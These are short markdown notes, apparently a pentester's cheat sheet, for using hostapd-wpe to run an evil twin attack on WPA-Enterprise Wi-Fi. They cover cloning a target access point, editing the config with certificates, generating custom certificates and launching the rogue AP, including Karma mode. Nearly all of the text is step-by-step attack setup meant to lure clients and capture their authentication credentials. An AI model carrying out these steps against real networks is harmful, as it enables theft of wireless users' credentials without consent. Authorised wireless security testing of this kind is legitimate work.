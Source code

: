 ### Source
https://github.com/OpenSecurityResearch/hostapd-wpe  

### General information to clone access point
```
get vendor of to clone access point
dont use the same bssid and channel -> otherwise you create conflicts and probably DOS
```

### Copy example config
```
/etc/hostapd-wpe/hostapd-wpe.conf
```

### Edit copied config
```
interface=<interface>
...
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key
private_key_passwd=<password>
dh_file=/etc/hostapd-wpe/certs/dh
ssid=hostapd-wpe                                                                                   
channel=1
...
bssid=<bssid>
```

### Launch evil twin attack (in config at least interface, ssid and channel must be set)
```
hostapd-wpe -c hostapd-wpe.conf
```

### Create custom certificates using example certs
```
/etc/hostapd-wpe/certs
```

### Delete all certificates
```
make destroycerts
```

### Create new dh-param
```
./bootstrap
```

### Edit certs
```
vim ca.cnf
```

### Create new certificates 
```
make ca
make client
make server
```

### Karma mode
```
hostapd-wpe -k <config>
```

